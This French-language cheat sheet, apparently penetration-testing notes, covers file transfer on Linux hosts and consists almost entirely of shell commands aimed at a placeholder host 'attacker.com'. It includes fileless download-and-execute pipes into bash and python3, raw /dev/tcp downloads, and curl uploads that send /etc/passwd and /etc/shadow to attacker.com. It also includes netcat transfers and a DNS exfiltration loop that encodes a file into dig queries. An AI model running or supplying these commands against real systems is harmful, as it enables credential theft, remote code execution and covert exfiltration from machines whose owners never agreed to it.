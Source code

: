 # Transferts de Fichiers dans les Environnements Linux

## Outils Natifs - Téléchargement

La plupart des distributions Linux intègrent plusieurs outils de téléchargement par défaut.

### wget

```bash
# Téléchargement simple
wget http://attacker.com/file.bin

# Téléchargement silencieux avec chemin de sortie personnalisé
wget -q http://attacker.com/file.bin -O /tmp/output.bin

# Téléchargement avec authentification
wget --http-user=user --http-password=pass http://attacker.com/file.bin
```

### curl

```bash
# Téléchargement simple
curl http://attacker.com/file.bin -o output.bin

# Téléchargement silencieux
curl -s http://attacker.com/file.bin -o output.bin

# Téléchargement avec authentification
curl -u user:pass http://attacker.com/file.bin -o output.bin
```

### Execution sans fichier

```bash
# wget - téléchargement et exécution
wget -qO- http://attacker.com/script.sh | bash

# curl - téléchargement et exécution
curl -s http://attacker.com/script.py | python3
```

## Sockets Réseau pour Transferts

Linux permet d'utiliser des sockets pour les transferts sans outils supplémentaires.

### /dev/tcp

```bash
# Téléchargement via sockets TCP
cat < /dev/tcp/attacker.com/80 > file.bin

# Envoyer une requête GET et enregistrer la réponse
exec 3<>/dev/tcp/attacker.com/80
echo -e "GET /file.bin HTTP/1.1\r\nHost: attacker.com\r\n\r\n" >&3
cat <&3 > response.txt
```

## Envoi de Fichiers

### Avec curl

```bash
# Envoi de fichier via POST
curl -X POST -F "file=@/etc/passwd" http://attacker.com/upload

# Envoi de plusieurs fichiers
curl -X POST -F "file1=@/etc/passwd" -F "file2=@/etc/shadow" http://attacker.com/upload
```

## Serveurs HTTP Temporaires

Linux permet de créer rapidement des serveurs HTTP pour le partage de fichiers.

### Python

```bash
# Python 3
python3 -m http.server 8000

# Python 2
python2 -m SimpleHTTPServer 8000
```

### PHP

```bash
php -S 0.0.0.0:8000
```

### Ruby

```bash
ruby -run -ehttpd . -p8000
```

## SCP / SFTP

Transferts sécurisés avec chiffrement SSH.

```bash
# Téléchargement avec SCP
scp user@attacker.com:/path/to/file.bin /local/path/

# Envoi avec SCP
scp /local/file.bin user@target.com:/remote/path/

# SFTP interactif
sftp user@target.com
> get remotefile.bin
> put localfile.bin
```

## Netcat pour Transferts

```bash
# Réception sur la machine cible
nc -l -p 8000 > file.bin

# Envoi depuis la machine source
nc target.com 8000 < file.bin
```

## Techniques Avancées

### Transfert via DNS

Utile dans des environnements très restreints.

```bash
# Sur la machine attaquante
xxd -p -c 16 file.bin | while read line; do dig $line.example.com; done

# Sur le serveur DNS (attaquant)
# Configuration pour capturer les requêtes et reconstruire le fichier
```

## Points Importants

- Toujours vérifier les permissions d'exécution après le transfert (`chmod +x`)
- Préférer les méthodes chiffrées (SCP/SFTP) pour les données sensibles
- Les serveurs HTTP temporaires sont rapides mais non sécurisés
- Netcat est disponible sur de nombreux systèmes par défaut
- Sur les systèmes anciens, Python 2 est souvent disponible quand Python 3 ne l'est pas